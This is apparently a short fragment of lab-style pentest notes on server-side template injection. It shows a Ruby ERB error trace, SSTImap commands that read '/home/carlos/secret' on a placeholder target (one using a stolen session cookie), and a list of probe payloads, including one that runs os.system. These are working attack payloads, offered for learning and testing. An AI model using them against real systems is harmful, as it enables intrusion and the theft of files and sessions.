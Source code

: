 ```sh
from /usr/lib/ruby/2.5.0/erb.rb:876:in `eval'
from /usr/lib/ruby/2.5.0/erb.rb:876:in `result'
from -e:4:in `<main>'																												'
# Otherwise, you'll need to manually test different language-specific payloads and study how they are interpreted


https://github.com/vladko312/SSTImap
python /opt/SSTImap/sstimap.py --engine erb -u https://TARGET.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock --os-cmd "cat /home/carlos/secret"
python /opt/SSTImap/sstimap.py -u https://TARGET.net/product/template?productId=1 --cookie 'session=StolenUserCookie' --method POST --marker fuzzer --data 'csrf=ValidCSRFToken&template=fuzzer&template-action=preview' --engine Freemarker --os-cmd 'cat /home/carlos/secret'

# SSTI payloads to manually identify vulnerability.
${{<%[%'"}}%\.,
}}{{7*7}} 
user.name}}{%25+import+os+%25}{{os.system('cat%20/home/carlos/secret')

{{fuzzer}}
${fuzzer}
${{fuzzer}}

${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
${foobar}

{% debug %}
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

